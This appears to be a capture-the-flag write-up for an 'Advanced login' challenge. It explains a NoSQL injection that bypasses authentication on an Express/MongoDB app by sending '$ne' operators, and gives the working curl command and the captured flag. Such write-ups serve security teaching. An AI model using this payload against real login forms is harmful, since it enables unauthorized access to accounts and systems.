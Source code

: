 # Writeup Advanced login

If you inspect the headers the http server returns you can see that the web app uses the javascript framework Express.
In the script.js file we can see that the form on the website posts the content as json. Lets assume the server uses mongodb.
We can then replace the user and pass with `{"$ne": ""}`
That makes the query return every user with username and password not equal to the empty string.

```bash
curl -H "Content-Type: application/json" \
     -X POST \
     -d '{"user": {"$ne": ""}, "pass": {"$ne": ""}}' \
     https://advanced-login.tghack.no/login
```

Then you get the token:
```
TG18{NoSQL_doesn't_mean_not_injectable}
```
